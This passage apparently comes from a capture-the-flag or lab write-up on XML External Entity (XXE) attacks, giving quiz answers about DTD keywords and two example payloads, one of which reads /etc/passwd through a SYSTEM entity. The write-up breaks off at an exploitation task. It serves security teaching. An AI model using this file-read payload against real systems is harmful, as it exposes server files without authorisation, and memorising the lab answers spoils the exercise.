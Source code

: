   **NOTE**: #PCDATA means parseable character data.

##### How do you define a new ELEMENT?

ANSWER: !ELEMENT

##### How do you define a ROOT element?

ANSWER: !DOCTYPE

##### How do you define a new ENTITY?

ANSWER: !ENTITY

### Task 15 [Severity 4] XML External Entity - XXE Payload

Now we'll see some XXE payload and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```


As we can see we are defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

### Task 16 [Severity 4] XML External Entity - Exploiting



##### What is the name of the user in /etc/passwd

payload:
